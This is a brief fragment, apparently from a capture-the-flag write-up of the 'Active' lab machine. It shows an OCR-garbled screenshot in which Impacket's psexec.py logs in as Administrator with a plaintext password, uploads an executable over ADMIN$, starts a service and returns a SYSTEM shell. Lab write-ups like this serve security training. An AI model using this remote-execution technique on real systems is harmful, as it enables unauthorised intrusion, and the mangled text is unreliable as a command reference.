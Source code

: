  

We can!

 

![Machine generated alternative text: (kali@ kali)-C ---\'Document s
\'Active \$ psexec.py active.htb/Administrator:
\'Ticketmaster1968•a1ø.1ø.1ø.1øø Impacket vø.9.19 Copyright 2019
SecureAuth Corporation ) Requesting shares on lø.lø.lø.løø\..... Found
writable share ADMIN\$ Uploading file hknVTbVV.exe Opening SVCManager on
lø.lø.lø.løø. Creating service PTup on lø.lø.lø.løø\..... ) Starting
service PTup C!) Press help for extra shell commands Microsoft Windows
(Version 6.1.7601) Copyright (c) 2009 Microsoft Corporation. All rights
reserved. C: NWindowsXsystem32Äuhoami nt authorityxsystem
](media/image16.png){width="5.947916666666667in"
height="2.7395833333333335in"}

 

Very interesting box
